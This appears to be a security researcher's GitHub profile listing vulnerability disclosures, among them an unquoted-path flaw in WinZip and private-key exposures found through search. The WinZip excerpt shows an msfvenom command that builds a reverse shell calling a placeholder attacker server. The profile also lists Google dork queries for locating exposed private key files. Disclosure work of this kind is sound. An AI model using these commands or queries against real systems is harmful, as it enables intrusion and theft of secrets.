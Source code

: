 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): [https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf](https://github.com/ciwen3/Public/blob/master/Cyber%20Security/vuln-report/winzip-Submission.pdf)
- Credited: [https://support.corel.com/hc/en-us/articles/217086227](https://web.archive.org/web/20210218194953/https://support.corel.com/hc/en-us/articles/217086227)
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence or elevating privilege's on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 

### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys

1. Weathernews Inc (wni.co.jp): May 13, 2021 - Sensitive data exposure, found private keys on several publicly accessable (no login required and google searchable) servers.
2. [Redacted] Resorts: June 12, 2024 - Sensitive data exposure, found private key

##### Examples:
- intitle:"index of" "*.cert.pem" | "*.key.pem"
- "BEGIN * PRIVATE KEY" ext:pem | ext:key | ext:txt
